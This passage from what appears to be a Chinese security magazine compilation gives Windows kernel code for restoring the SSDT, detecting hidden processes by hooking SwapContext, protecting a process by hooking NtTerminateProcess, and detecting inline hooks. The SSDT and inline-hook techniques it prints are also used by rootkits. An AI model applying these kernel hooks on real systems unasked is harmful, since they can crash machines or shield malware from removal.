                pList, ModNameBuf, sizeof(ModNameBuf)-1)) {
                memcpy(
                    ((pSSDTSaveTable)((ULONG)pSSDTST + i * sizeof(SSDTSaveTable)))->ModuleName,
                    ModNameBuf,
                    sizeof(ModNameBuf)
                );
            }
        }

        SSDTSTOrderByServiceNum(pSSDTST);
        GetOldSSDTAddress();
    }

    if (pList) {
        DestroyModList(pList); // 释放模块链表
        pList = NULL;
    }

    return bOK;
}
```

它首先读取服务描述表，得到其中的 SSDT 表项个数，根据此值来分配一定的内存空间，用于存储自定义的 SSDT 信息。

首先根据 ntdll 函数中以 “Nt” 开头的导出函数进…

## SSDT恢复相关实现

行匹配，得到服务号与函数名的对应关系。再根据 SSDT 表中处理函数的地址，通过使用函数 NtQuerySystemInformation 所查询得到的各个模块基址及大小，枚举得出这个地址属于哪个模块，从而得到模块名。然后再将 ntdll 函数中所没有的剩余表项从 SSDT 表中读取出来，放入自定义的 SSDT 信息结构体中。最后对获得的整个自定义 SSDT 信息结构按照服务号从小到大的顺序进行冒泡排序（这里使用了 SSDTSTOrderByServiceNum 函数）。

接下来的恢复 SSDT 各表项的函数比较简单，主要思路就是把得到的原始处理函数地址（原始处理函数地址的得到在后面讲解）设置回 SSDT 当前函数地址表项中。

```cpp
// 恢复SSDT
BOOL ReSSDT( IN HANDLE hDriver )
{
    ULONG i;
    if( RealCount == 0 )
    {
        return FALSE;
    }

    for( i = 0; i < RealCount; i ++ )
    {
        if(
            ((pSSDTSaveTable)((ULONG)pSSDTST + i * sizeof(SSDTSaveTable)))->ulCurrentFunctionAddress
            != ((pSSDTSaveTable)((ULONG)pSSDTST + i * sizeof(SSDTSaveTable)))->ulOriginalFunctionAddress
          ) // 当前地址和原始地址不同，恢复原始地址值
        {
            if( !SetHook( hDriver,
                ((pSSDTSaveTable)((ULONG)pSSDTST + i * sizeof(SSDTSaveTable)))->ulServiceNumber,
                &((pSSDTSaveTable)((ULONG)pSSDTST + i * sizeof(SSDTSaveTable)))->ulOriginalFunctionAddress)
              )
            {
                return FALSE;
            }
        }
    }

    return TRUE;
}
```

ReSSDTAndThrowSplit 为去掉多余的 SSDT 表项（即非系统原始的表项）。它的主要思路就是直接简单地将服务描述表中的服务个数设置为 ntdll 中所查找到的匹配的函数个数。

最后就是得到原始的 SSDT 表项地址了，该功能代码参考自网上的代码，大家就自己看源码吧。其主要实现思路就是首先加载系统中的 ntoskrnl.exe 程序，找到其中的 KiServiceTable，再将其转换为系统所加载的真实地址，读取出系统中原始的 SSDT 表项地址。

##### 界面模块

最后一个模块即为我们的界面模块了。首先根据图 1 制作出一个基于对话框的 MFC 程序，然后在 XXXDlg.cpp 文件的头部加上以下代码。

```cpp
#include <windows.h>
#include <shlwapi.h>
#include <tchar.h>
#include "..\\EXE\\SSDT.h"
extern ULONG NTBase; // NT 基址
extern ULONG TotalSSDTCount; // SSDT服务个数
extern ULONG RealCount; // 枚举所找到的服务个数
extern pSSDTSaveTable pSSDTST; // 保存的SSDT缓冲表
HANDLE hDriver = NULL; // 驱动句柄
BOOL bLoadSysSuccess = TRUE;
```

该模块要使用到基本功能实现模块，所以要将 SSDT.h 头文件加上。接着将基本功能实现模块中的公共变量导入本模块中，再定义两个全局变量，用来保存驱动程序的句柄和标志是否已经成功加载了驱动。

本模块中的一个重要函数就是 SSDT 的显示了，我利用 CListCtrl 控件将各个 SSDT 的表项显示出来，在这里要加上“m_List.SetExtendedStyle(m_List.GetExtendedStyle() | LVS_EX_FULLROWSELECT | LVS_EX_GRIDLINES);”，使之被选择时，是被选择的整行（m_List 为 CListCtrl 类的一个实例）。下面是重绘 SSDT 的实现函数。

```cpp
void CSSDTDlg::OnReShowSSDT()
{
    m_List.DeleteAllItems();
    ShowSSDT();
}
```

先删除所有项，再显示出来。当点击“恢复 SSDT”按钮时，首先让用户确认，如果确认通过，则首先调用基本函数模块中的 ReSSDT 函数对 SSDT 进行恢复，再调用 SSDT 的重绘函数，重新将更改后的 SSDT 表项显示出来。

当点击“恢复 SSDT 并删除非系统表项”时，也是首先让用户确认，确认后调用基本函数模块中的 ReSSDTAndThrowSplit 函数，再调用 SSDT 重绘函数进行重绘。

最下面有一个函数为参考自网上的函数，它的主要作用是更改 CListCtrl 控件中的每一行中的字体颜色和背景颜色。我主要使用它来将被 HOOK 了的内核函数用红颜色突出显示。最后要提醒的一点是：要记得在消息映射中添加“ON_NOTIFY( NM_CUSTOMDRAW, IDC_LIST1, OnDrawColorForMyList )”。

【本文涉及的代码（程序），请见随书光盘】

### 基于线程的隐藏进程检测

文/图 炉子[OGiNr]


进程的隐藏与检测永远是一个不衰的话题，而检测方法也是层出不穷的。常见的纯粹的隐藏进程的检测方法大都是根据进程创建后留下的各种痕迹来检测的，不过我们要换一种思路，转而通过查找线程并根据线程的 KTEB 中的相关信息来获取其对应的进程，最终实现类似的任务。

```asm
mov eax,dword ptr [ebp+8]
mov eax,dword ptr [eax+220h]
// 这个偏移就是KTEB.ThreadsProcess
pop ebp
ret 4
```

那么为什么我们还要关注 KTEB.Tcb.Apc.State.Process 呢？这是因为 KTEB.ThreadsProcess 是有可能被修改的，而且不一定影响程序运行……而 KTEB.Tcb.Apc.State.Process 则不然，通常这个值只会被 KiAttachProcess 修改。

#### 准备工作

- 1) 根据线程得到其所属进程

找到线程之后，我们还需要知道它所属的进程。这并不是太难的问题。我们先看看 KTEB 的结构。

```text
lkd> dt nt!_ETHREAD -r
+0x000 Tcb : _KTHREAD
+0x034 ApcState : _KAPC_STATE
+0x010 Process : Ptr32 _KPROCESS
...
+0x220 ThreadsProcess : Ptr32 _EPROCESS
```

其中的 KTEB.Tcb.Apc.State.Process 和 KTEB.ThreadsProcess 都可以为我们所用。一般而言，我们使用 KTEB.ThreadsProcess，并且 NT 系统内核所导出的 PsGetThreadProcess（IoThreadToProcess 是别名）也使用这一项。

```asm
lkd> u PsGetThreadProcess
nt!PsGetThreadProcess:
mov edi,edi
push ebp
mov ebp,esp
```

- 2) 应该钩什么样的函数

说到内核钩子记录调用者线程，就不得不面对一个问题——内核中的函数多如牛毛，而我们出于效率考虑又不能全部钩住。我们究竟应该钩住哪些函数呢？我选择的函数是 SwapContext……

#### 代码实现

- 1) 查找系统中的线程

由于 SwapContext 并非一个导出函数，所以我们的首要问题自然是定位 SwapContext。SwapContext 在 KiDispatchInterrupt 中被调用。

```text
lkd> u KiDispatchInterrupt L 100
nt!KiDispatchInterrupt:
......
e8eeffdfff call nt!KiReadyThread (804dc6da)
b101 mov cl,1
e831000000 call nt!SwapContext (804dc924)
......
```

所以我们可以从中通过特征码的方法定位 SwapContext（从 WinDBG 的反汇编结果可知，KiDispatchInterrupt 中同样可以定位 KiReadyThread）。

```cpp
UCHAR *cPtr;
UCHAR *pOpcode;
ULONG Length;
for (cPtr = (PUCHAR)KiDispatchInterrupt;
     cPtr < (PUCHAR)KiDispatchInterrupt + PAGE_SIZE;
     cPtr += Length)
{
    Length = SizeOfCode(cPtr, &pOpcode);
    if (!Length) break;
    if (*(PUSHORT)cPtr == 0x01B1 && *(PUCHAR)((ULONG)cPtr + 2) == 0xE8)
    {
        SwapContext = *(ULONG *)((ULONG)pOpcode + 3) + (ULONG)cPtr + 7;
        break;
    }
}
```

然后是挂钩 SwapContext，这一部分可以根据个人喜好完成，我选择的是 push ret 的方式。

```cpp
BOOLEAN EnableSwapContextHook()
{
    UCHAR HookCode[6] = {'\x68','\x00','\x00','\x00','\x00','\xC3'};
    // 68xxxxxxxx 是 push xxxxxxxx，C3 是 ret
    UCHAR JmpCode[7] = {'\xEA','\x00','\x00','\x00','\x00','\x08','\x00'};
    ULONG BackupLength = 0;
    PUCHAR pOpCode;
    *(ULONG *)((ULONG)HookCode + 1) = (ULONG)NewSwapContext;
    while (BackupLength < 6)
    {
        BackupLength += SizeOfCode((PVOID)((ULONG)pfnSwapContext + BackupLength), &pOpCode);
    }
    *(ULONG *)((ULONG)JmpCode + 1) = (ULONG)pfnSwapContext + BackupLength;
}
```

```cpp
pfnSwapContext + BackupLength;
// 转跳回 SwapContext + BackupLength 的地方
pfnProxySwapContext = ExAllocatePool(NonPagedPool, BackupLength + 7);
if (!pfnProxySwapContext) return FALSE;
RtlCopyMemory(pfnProxySwapContext, pfnSwapContext, BackupLength);
RtlCopyMemory((PVOID)((ULONG)pfnProxySwapContext + BackupLength), JmpCode, 7);
return ModifySystemRoutine(pfnSwapContext, HookCode, 6); // 修改 SwapContext
```

需要注意的是 SwapContext 是一个 fastcall 调用约定的函数，所以其参数 OldThread、NewThread 分别存在于 ecx、edx 中，而不是堆栈中。

恢复钩子其实就是把我们备份的前 6 字节覆盖回去（因为我们只修改了 pfnSwapContext 的前 6 字节，之所以在 pfnProxySwapContext 中实现的字节数有可能大于 6，只是为了避免出现执行半条指令的情况）。

由于在多核系统上有可能有一个或多个非当前（执行“恢复钩子”的代码）的处理器正在执行 pfnProxySwapContext 中的指令，如果直接释放之前分配的 pfnProxySwapContext，有可能导致蓝屏。为了防止出现这种情况，我们可以在恢复钩子之后等待 50ms 再释放我们分配的 pfnProxySwapContext。

在 CollectThreadItem 中记录线程我只是简单地使用了一个数组，多 CPU 上为了防止同时修改数组可以考虑自旋或者使用多个数组，或者使用其他的记录方法。

### 2）常规方法枚举线程

尽管挂钩 SwapContext 很好用，但是实测之后就会发现，实际上，系统线程调度并没有我们想象中那么频繁，很有可能我们的驱动记录了数秒也不能记录下全系统内的线程。所以我们还需要一些代码先把没有刻意隐藏的线程记录下来，以防出现检测到隐藏进程却没有显示出普通进程的尴尬。

我们采用枚举 PspCidTable 的方法来实现，PspCidTable 可以从 PsLookupProcessByProcessId 中定位。

```text
lkd> u PsLookupProcessByProcessId L 30
nt!PsLookupProcessByProcessId:
mov edi,edi
push ebp
mov ebp,esp
push edx
push esi
mov eax,dword ptr fs:[00000124h]
push dword ptr [ebp+8]
mov esi,eax
dec dword ptr [esi+0D4h]
```

```c
ff35e0175680 push dword ptr [nt!PspCidTable]
// 在PsLookupProcessByProcessId中，以PspCidTable为参数调用了ExMapHandleToPointer
... call nt!ExMapHandleToPointer
```

我们使用如下代码来实现。

```c
for (cPtr=(PUCHAR)PsLookupProcessByProcessId;
     cPtr<(PUCHAR)PsLookupProcessByProcessId+PAGE_SIZE;
     cPtr+=Length)
{
    Length = SizeOfCode(cPtr, &bOpcode);
    if (!Length) break;
    if (*(PUSHORT)cPtr==0x35ff && *(PUCHAR)((ULONG)cPtr+6)==0xE8)
    {
        // 特征码获取调用前
        PspCidTable = *(ULONG *)(cPtr + 2);
        break;
    }
}
```

PspCidTable 可以直接使用 ExEnumHandleTable 来枚举，这样就避免了对 Windows 2000/XP 不同结构的处理。

```c
BOOLEAN EnumPspCidTable()
{
    return ExEnumHandleTable(*(PVOID *)phtPspCidTable,
        (EX_ENUMERATE_HANDLE_ROUTINE)PspCidTableEnumCallBack,
        NULL, NULL);
}
```

EX_ENUMERATE_HANDLE_ROUTINE 的定义如下。

```c
typedef BOOLEAN (*EX_ENUMERATE_HANDLE_ROUTINE)(
    IN PHANDLE_TABLE_ENTRY HandleTableEntry,
    IN HANDLE Handle,
    IN PVOID EnumParameter
);
```

其中的 HandleTableEntry 是一个 HANDLE_TABLE_ENTRY 类型指针，HANDLE_TABLE_ENTRY 定义如下。

```c
typedef struct _HANDLE_TABLE_ENTRY {
    PVOID Object;
    // ...
} HANDLE_TABLE_ENTRY, *PHANDLE_TABLE_ENTRY;
```

其中的 Object 就是被枚举的表中的表项，在 PspCidTable 中，这些表项作为 KTEB/KPEB 的指针出现，我们可以根据 KTEB/KPEB 的 OBJECT_HEADER 来区分 KTEB 和 KPEB。

```c
BOOLEAN PspCidTableEnumCallBack(...)
{
    ObjectBody = HandleTableEntry->Object;
    if (OBJECT_TO_OBJECT_HEADER(ObjectBody)->Type == *PsThreadType)
        // 是一个KTEB指针
}
```

```c
{
    // 记录KTEB指针
    return FALSE; // 返回FALSE表示继续枚举
}
```

另外还有一个线程不出现在 PspCidTable 中，这个线程便是我们常说的“系统空闲进程”中的那个线程——IdleThread，我们可以从 KPCR（Kernel Processor Control Region，处理器控制区域）中找到。

```text
lkd> dt _KPCR 0xFFDFF000
nt!_KPCR
 +0x000 NtTib      : _NT_TIB
 +0x01c SelfPcr    : 0xffdff000 _KPCR
 +0x020 Prcb       : 0xffdff120 _KPRCB
lkd> dt _KPRCB 0xFFDFF120
 +0x004 CurrentThread : ... _KTHREAD
 +0x00c IdleThread    : 0x80559e20 _KTHREAD
```

所有 32 位 NT 系统中 KPCR 都处在相同位置，所以我们可以直接硬编码。

### 3）获得线程所属的进程

获得 KTEB.ThreadsProcess 我们可以简单地使用 PsGetThreadProcess，这无疑是最简单省事的方法。至于 KTEB.Tcb.Apc.State.Process 则相对麻烦些。

由于 KTEB 结构（ETHREAD/KTHREAD）在各个系统下都不同，所以我们只能通过偏移量来取 KTEB.Tcb.Apc.State.Process。考虑到通用性问题，我们需要动态确定偏移。

```c
ULONG Pointer=(ULONG)PsGetCurrentThread();
ULONG i=0;
for (i=0; i<0x200; i++)
{
    if (MmIsAddressValid((PVOID)(Pointer+i)))
    {
        if (*(PEPROCESS *)(Pointer+i)==PsGetCurrentProcess())
        {
            // KTEB.Tcb.Apc.State.Process是KTEB中第一次出现KPEB指针的项
            ProcessOffsetInThread=i;
        }
    }
}
```

我们也可以采取类似于定位未导出函数的方法。在 PsGetCurrentProcess 中是直接取 PsGetCurrentThread()->Tcb.Apc.State.Process 的（这也证实了我之前所说的，KTEB.Tcb.Apc.State.Process 指示了当前线程所处的进程环境——而不是所属的进程环境）。

```asm
lkd> u PsGetCurrentProcess L 10
nt!PsGetCurrentProcess:
mov eax, dword ptr fs:[00000124h]
```

```c
mov eax, dword ptr [eax+44h]
// 这个44h就是KTEB.Tcb.Apc.State.Process的偏移
ret
```

## 4）记录到的线程列表的维护

需要注意的是，这种方法检测隐藏进程与普通的读表、读链的方法不同，它是动态记录线程的，所以就引出了另外一个问题——我们如何确保所记录的线程都是在执行的，而没有在记录后被结束的？

我们可以创建一个线程创建结束通告，当有线程结束时将其记录下来，然后等到输出时将其从我们的线程列表中删去。为什么我们不能直接在线程结束通告的回调例程中直接将其删去呢？这是因为线程结束通告的回调例程调用时，线程还没有真正结束，所以如果我们当时就将其删除，很难保证在我们删除它之后不会再次被记录。

线程创建结束通告的回调函数声明如下：

```c
VOID ThreadCreateNotifyRoutine(HANDLE ProcessId,
    HANDLE ThreadId, BOOLEAN Create)
```

当参数 Create 为 FALSE 时，即表示本次回调例程的调用是由于线程结束引发的，这时候我们就可以把这个线程记入“已结束线程列表”。

不过我们立刻又面临了一个问题——如果我们将其记入已结束线程列表之后，系统又使用相同的 KTEB 指针创建了一个线程，那么我们不就不能记录到这个线程了吗？为了能解决这个问题，我们可以在 ThreadCreateNotifyRoutine 例程中，当 Create 为 TRUE 时，从“已结束线程列表”中查找是否存在正在创建的线程的 KTEB 指针，如果存在，将其从“已结束线程列表”中移除（也可以在 ThreadCreateNotifyRoutine 中记录所有 Create 为 TRUE 的动作，这样可以记录到在我们驱动加载后创建的所有线程）。

在 ThreadCreateNotifyRoutine 的参数中，ThreadId 即为正在创建的线程的 TID，我们可以根据这个 TID 使用 PsLookupThreadByThreadId 获取对应的 KTEB 指针。

#### 尾声

本文提供了一种基于线程的隐藏进程的检测方法，一般来说，这种检测方法还是比较可靠的。但是大家需要明白的是，正如没有绝对锋利的矛，单一的一种方法也并不能保证总是有效的，我们可以将本文的方法和《黑客防线》杂志往期刊登的各种方法结合起来使用，这样才会有更好的效果。


### 再谈内核级进程保护

文／夜枫

在《黑客防线》杂志 2008 年第 1 期的文章中，我提到过利用 HOOK 内核函数 NtOpenProcess 来实现进程保护的方法。文章发表后，有位读者在黑防论坛提出了我修改 SSDT 的方法没有置 CR0 寄存器为 0 就直接修改了，这样会使系统 BSOD，我当时对其提出的问题进行了回复，这里也顺便解释一下，其实不修改而直接改也是可以的，我用 Windows XP SP2 测试时是可行的，但 Windows 2000 和 2003 不太清楚。这里也感谢这位读者对《黑客防线》杂志的支持，以及对我文章的支持。

本文我们再来谈谈内核级的进程保护。上次我们挂钩 OpenProcess，因为如果 A 进程要结束 B 进程，那么第一步需要获得 B 进程的访问权限，所以调用 OpenProcess 来打开进程。而 B 进程自己结束自己时是不需要这个权限的，因为 B 进程本身就对自身具有完全访问权限。而我们上次的方法就是 HOOK 内核函数 NtOpenProcess，当有进程试图打开所保护的进程时予以拒绝。这个方法是一个比较冷门的方法，对有些反病毒工具是无效的。

下面我再给大家介绍一个比较通用的方法。HOOK 函数 NtTerminateProcess，我们知道，Win32 中结束一个进程（包括结束自身进程）调用的是 API 函数 TerminateProcess，这个函数在 MSDN 中的声明如下：

```c
BOOL TerminateProcess(
    HANDLE hProcess,
    DWORD  uExitCode
);
```

其中第 1 个参数表示要结束的进程句柄，第 2 个是退出码。从名字我们也可以看出，对应的 Native API 是 NtTerminateProcess，在《The Undocumented Functions Microsoft Windows NT/2000》里可以查到这个函数的原型，代码如下：

```c
NTSYSAPI NTSTATUS NTAPI NtTerminateProcess(
    IN HANDLE ProcessHandle OPTIONAL,
    IN NTSTATUS ExitStatus
);
```

我们通过对比可以看到，函数参数都是一样的。通过刚才的程序结束的过程，不难看出，如果我们挂钩这个函数，当要结束的进程是所保护的进程时，我们不让它结束，这样就可以实现进程保护了。而这也是本文的思想。

## 分析

因为论坛上读者提出了我第 1 期文章中介绍的方法存在的问题，所以我这次采用 MDL 来锁定并修改 SSDT，这应该是任何系统都通用的。

```c
PMDL m_MDL;
PVOID *m_Mapped;
```

我们先声明两个全局变量，一个是内存描述符（MDL），一个是映射后的内存映射。

```c
#define SYSTEMSERVICE(_function) KeServiceDescriptorTable.ServiceTableBase[*((PULONG)((PUCHAR)_function+1))]
#define SYSCALL_INDEX(_Function) *((PULONG)((PUCHAR)_Function+1))
#define HOOK_SYSCALL(Function,_Hook,_Orig) \
    _Orig = (PVOID)InterlockedExchange((PLONG)&m_Mapped[SYSCALL_INDEX(Function)],(LONG)_Hook)
```

这段代码定义了 3 个宏，第 1 个是获得函数在 SSDT 表中的位置，第 2 个是获得函数的索引，第 3 个是修改函数地址。网上的很多 Rootkit 程序都要用到这几个宏，其中一般还会有个 UNHOOK_SYSCALL，它和 HOOK_SYSCALL 是一样的，只不过一个有返回值，一个没有返回值。这里我只用了一个，恢复时随便找个变量接收地址就可以了（当然，另外声明一个比较好，可以节约内存）。

既然说到了内存，下面我要介绍一个宏。

```c
#pragma alloc_text(INIT, DriverEntry)
#pragma alloc_text(PAGE, OnUnload)
#pragma alloc_text(PAGE, DispatchDeviceControl)
#pragma alloc_text(PAGE, NewZwOpenProcess)
#pragma alloc_text(PAGE, NewZwTerminateProcess)
```

这个宏利用 alloc_text 声明到 PAGE 段，当驱动加载后，PAGE 段的函数全部放在非分页内存中，而声明为 INIT 段的函数则在驱动加载后会被释放掉内存。驱动因为是在非分页内存中而得以长期驻留，所以一切要以节约内存为主。

接下来我们看一下整体的函数声明部分。

```c
PMDL m_MDL;
PVOID *m_Mapped;
__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;

// 变量名是不能变的，因为是从外部导入的
#define SYSTEMSERVICE(_function) ...
#define SYSCALL_INDEX(_Function) ...
#define HOOK_SYSCALL(Function,_Hook,_Orig) ...

NTSYSAPI NTSTATUS NTAPI ZwOpenProcess(...);
NTSYSAPI NTSTATUS NTAPI ZwTerminateProcess(...);
typedef NTSTATUS (*ZWOPENPROCESS)(...);
typedef NTSTATUS (*ZWTERMINATEPROCESS)(...);
NTSTATUS NewZwOpenProcess(...);
NTSTATUS NewZwTerminateProcess(...);
NTSTATUS PsLookupProcessByProcessId(...);
ZWOPENPROCESS OldZwOpenProcess = NULL;
ZWTERMINATEPROCESS OldZwTerminateProcess = NULL;

// 这里为了快点，我直接写PID了
long pid = 3256;
```

这里要注意一个问题，其中我还声明了一个 PsLookupProcessByProcessId 函数，这个函数一会儿我们有大用处。下面我们跟随驱动加载的步骤，一步一步来看看驱动到底是如何工作的。

```c
m_MDL = MmCreateMdl(NULL, KeServiceDescriptorTable.ServiceTableBase,
    KeServiceDescriptorTable.NumberOfServices*4);
```

```c
if (!m_MDL)
    return STATUS_UNSUCCESSFUL;
// 非分页内存
MmBuildMdlForNonPagedPool(m_MDL);
m_MDL->MdlFlags = m_MDL->MdlFlags | MDL_MAPPED_TO_SYSTEM_VA;
// 锁定
m_Mapped = MmMapLockedPages(m_MDL, KernelMode);
HOOK_SYSCALL(ZwOpenProcess, NewZwOpenProcess, OldZwOpenProcess);
HOOK_SYSCALL(ZwTerminateProcess, NewZwTerminateProcess, OldZwTerminateProcess);
```

```c
return OldZwTerminateProcess(ProcessHandle, ExitStatus);
}
```

首先是用 MmCreateMdl 创建内存描述符，然后用 MmBuildMdlForNonPagedPool 创建非分页内存。之后我们修改属性让内存可写，利用函数 MmMapLockedPages 锁定，最后使用 HOOK_SYSCALL 修改 SSDT。

我们再看一下 ZwTerminateProcess 这个函数的新地址是如何工作的。

```c
NTSTATUS NewZwTerminateProcess(IN HANDLE ProcessHandle OPTIONAL, IN NTSTATUS ExitStatus)
{
    NTSTATUS nStatus = STATUS_SUCCESS;
    PEPROCESS EPROCESSPROTECT = NULL;
    PEPROCESS EPROCESSKILL = NULL;

    // 我们要保护的进程的PID存在变量pid里，使用PsLookupProcessByProcessId可以通过PID获得EPROCESS
    PsLookupProcessByProcessId((ULONG)pid, &EPROCESSPROTECT);

    // 通过ProcessHandle获得当前要结束的进程的EPROCESS
    if (ObReferenceObjectByHandle(ProcessHandle, GENERIC_READ, NULL, KernelMode, &EPROCESSKILL, 0) == STATUS_SUCCESS)
    {
        // 如果要结束的是我们需要保护的进程，这里分两种情况
        if (EPROCESSPROTECT == EPROCESSKILL)
        {
            if (EPROCESSPROTECT != PsGetCurrentProcess())
            {
                KdPrint(("[-]进程保护,外部程序试图关闭保护进程\n"));
                nStatus = STATUS_ACCESS_DENIED;
            }
            else
            {
                KdPrint(("[-]进程保护,程序自身退出请求\n"));
            }
        }
    }

    // 剩下的交给我们的原函数
    if (nStatus != STATUS_SUCCESS)
        return nStatus;
    else
        return OldZwTerminateProcess(ProcessHandle, ExitStatus);
}
```

因为第 1 期文章的程序是基于 PID 来保护进程的，所以这里我也采用 PID 来保护。代码我做了详细注释，这里只简单介绍一下。首先我们用到了函数 PsLookupProcessByProcessId，它可以通过 PID 来获得一个 EPROCESS 对象，而 EPROCESS 在不同的系统中定义是不一样的，所以没有固定定义，不过这里面是有文件名的，我们可以在 DriverEntry 的时候通过 PsGetCurrentProcess 来获得一个 EPROCESS，然后查找到文件名偏移，这也是通用的方法。因为 DriverEntry 时获得的 EPROCESS 进程名是 system，所以我们可以获得到文件名偏移量，这里我用的方法是直接对比内存地址。ObReferenceObjectByHandle 函数可以通过句柄来获得对象，我这里用这个函数通过 ProcessHandle 句柄来获得 EPROCESS 对象，这个 EPROCESS 和开始的那个可不一样，这个是我们要结束的 EPROCESS，而开始的那个是我们所保护的 EPROCESS。

调用 TerminateProcess 有两种情况，第一种情况是其他进程试图结束我们的进程，另外一个情况是自身进程退出，所以我们只能阻止第一种情况，而不能阻止第二种情况，否则正常的程序就不能退出了。这里我采用的方法是使用 PsGetCurrentProcess 来得到当前进程和我们所保护的进程相对比，如果是一样的，则表示是程序自身退出，不作任何处理；而如果不一样，则表示是其他程序试图结束我们的进程，就返回 STATUS_ACCESS_DENIED 访问失败。

到此，我们的新方法就介绍完了，结合《黑客防线》2008 年第 1 期文章介绍的方法，可以阻挡绝大部分的进程结束，当然有些也阻挡不了，比如 IceSword。

最后，我再介绍一下应用前景。《黑客防线》曾经发表过一篇文章（浅析 Ring3 下对抗 2008 瑞星主动防御），其中介绍了一个用作业对象来结束瑞星的方法，这种结束方法就不会调用 NtTerminateProcess，而瑞星就是 HOOK 这个函数，所以可以成功地把瑞星结束掉。但如果你看过这篇文章提供的代码就会发现，它还需要得到进程的访问权限才可以，也就是说，还是要调用 NtOpenProcess 来打开进程，所以我们的驱动还是可以成功阻止的。另外，如果大家对我文章有什么疑问或建议，欢迎到黑客防线论坛上发帖，我会第一时间解答大家的疑问的。

> 【本文涉及的代码（程序），请见随书光盘】

## 用反汇编引擎检测 inline hook

文/Leminis


最近两天在研究 FUTO Rootkit 的源代码，发现其自身带了一个反汇编引擎，通过该引擎可以反汇编 32 位或者 16 位的代码，就想到用反汇编引擎来检测 inline hook，于是尝试写了本文要说明的程序。

在开始之前，我们先对常用的 inline hook 方法来做个总结，常用的 inline hook 手段有如下 3 种：

- 1. 在要 inline hook 的函数中用 `JMP XXXXXXXX` 覆盖原函数的指令，后面的 `XXXXXXXX` 是相对跳转指令的偏移量，该指令机器码一般占 5 字节。
- 2. 在要 inline hook 的函数中用 `JMP FAR XXXXXXXX` 覆盖原函数指令，后面的 `XXXXXXXX` 是跳转绝对地址，指令长度一般占 7 字节。
- 3. 在要 inline hook 的函数中先 `PUSH XXXXXXXX`，之后直接 `RETN` 返回，间接实现跳转，通常共占 6 字节。

平常的 inline hook，多是对函数头部分进行；如果对函数理解较深，也有对函数深层次进行 inline hook 的，这样检测起来会比较困难。

在此，我们通过对传入函数头地址的前 25 个字节进行反汇编，之后判断是否有上面提到的几个指令来判断函数是否被 inline hook。而本文则是编写一个检测 SSDT 表中的服务函数是否被 inline hook 的程序，其中判断 inline hook 的函数代码如下。

```c
// StartAddress是要检测的函数头地址，pOpCode是要返回的检测信息
// typedef struct OpCode {
//   enum InstructType Type; // 跳转类型
//   DWORD JmpAddress;       // 跳转到的地址
//   DWORD HookedAddress;    // 被inline hook的地址
// }
```

```c
BOOLEAN FindInlineHook(IN ULONG StartAddress, OUT POPCODE pOpCode)
{
    int len = 0;
    INSTRUCTION inst;
    INSTRUCTION instb;
    if (pOpCode == NULL) return FALSE;
    for (len = 0; len < 25; ) {
        if (!MmIsAddressValid((PVOID)(StartAddress + len))) break;
        len += get_instruction(&inst, (BYTE*)(StartAddress + len), MODE_32);
        // 判断是否是跳转指令
        if (inst.type == INSTRUCTION_TYPE_JMP) {
            pOpCode->HookedAddress = StartAddress + len - inst.length;
            if (inst.length == 7) {
                pOpCode->Type = DIRECT_JMP;
                pOpCode->JmpAddress = inst.op1.displacement;
            } else if (inst.length == 5) {
                pOpCode->Type = RELATIVE_JMP;
                pOpCode->JmpAddress = StartAddress + len + inst.op1.immediate;
            }
            return TRUE;
        }
        ...
    }
}
```

```cpp
pOpCode->JmpAddress = StartAddress + len + instb.op1.immediate;
// KdPrint(("DIRECT_JMP %0X -> %0X\n", pOpCode->HookedAddress, pOpCode->JmpAddress));
return TRUE;

// 判断是否是 PUSH/RETN 类型的跳转
if (inst.type == INSTRUCTION_TYPE_PUSH && instb.type == INSTRUCTION_TYPE_RET)
{
    pOpCode->Type = PUSH_RETN;
    pOpCode->HookedAddress = StartAddress + len - inst.length - instb.length;
    pOpCode->JmpAddress = inst.op1.displacement;
    ...
}
return FALSE;
```

在上面的代码中，我们通过对函数头的前 25 个字节用反汇编引擎库提供的函数 `get_instruction` 获取反汇编后的汇编码信息，依次判断是否是我们前面提到的几种指令，之后从汇编码信息中获取跳转到的地址。

由于 SSDT 的表头指针内核导出了，所以我们可以通过下面的代码获取。

```cpp
// 获取 SSDT 表中的信息需要使用的数据结构
#pragma pack(1)
typedef struct ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;
    unsigned int *ServiceCounterTableBase;
    // Used only in checked build
    unsigned int NumberOfServices;
    unsigned char *ParamTableBase;
} ServiceDescriptorTableEntry_t, *PServiceDescriptorTableEntry;
#pragma pack()

__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;
```

在 SSDT 表中，每个服务函数的地址都是用 4 个字节的地址空间存放的，结构中的 `ServiceTableBase` 是表头指针，`NumberOfServices` 是 SSDT 表中的服务个数。

用于检测 SSDT 表服务函数是否 inline hook 的整个函数代码如下。

```cpp
VOID ScanSSDT(VOID)
{
    ULONG NumOfService = 0x00000000;
    PULONG AddServiceStart = 0x00000000;
    ULONG iCount = 0x00000000;
    OPCODE OpCode;

    NumOfService = KeServiceDescriptorTable.NumberOfServices;
    AddServiceStart = KeServiceDescriptorTable.ServiceTableBase;

    KdPrint(("SSDT HOOK INFORMATION \n"));
    for (iCount = 0; iCount < NumOfService; iCount++)
    {
        if (FindInlineHook(AddServiceStart[iCount], &OpCode))
        {
            switch (OpCode.Type)
            {
            case DIRECT_JMP:
                KdPrint(("[HOOK INFO] DIRECT_JMP 0x%0X -> 0x%0X\n", OpCode.HookedAddress, OpCode.JmpAddress));
                break;
            case RELATIVE_JMP:
                KdPrint(("[HOOK INFO] RELATIVE_JMP 0x%0X -> 0x%0X\n", OpCode.HookedAddress, OpCode.JmpAddress));
                break;
            case PUSH_RETN:
                KdPrint(("[HOOK INFO] PUSH_RETN 0x%0X -> 0x%0X\n", OpCode.HookedAddress, OpCode.JmpAddress));
                break;
            }
        }
    }
}
```

冰刃在运行的时候，对 SSDT 表中的 6 个函数进行了 inline hook，下面用我们的程序来检测一下。首先运行冰刃，再用 kmdManager 把驱动加载进去，在 Dbgview 中看到的调试信息如图 1 所示。之后我们用 Rootkit Unhooker 检测到的 HOOK 信息如图 2 所示。我们的程序检测的结果和 Rootkit Unhooker 检测结果一样。


图1


图2

以上程序用 VC++6.0 编译，在 Windows XP SP2 上运行成功。本文程序所使用的反汇编引擎的 3 个文件 `libdasm.c`、`libdasm.h` 和 `tables.h` 在 FUTO Rootkit 的源代码中有提供，FUTO Rootkit 的源代码可在 www.rootkit.com 下载。

【本文涉及的代码（程序），请见随书光盘】

## Rootkit端口隐藏实现


文/夜枫 [X.F.S.T]

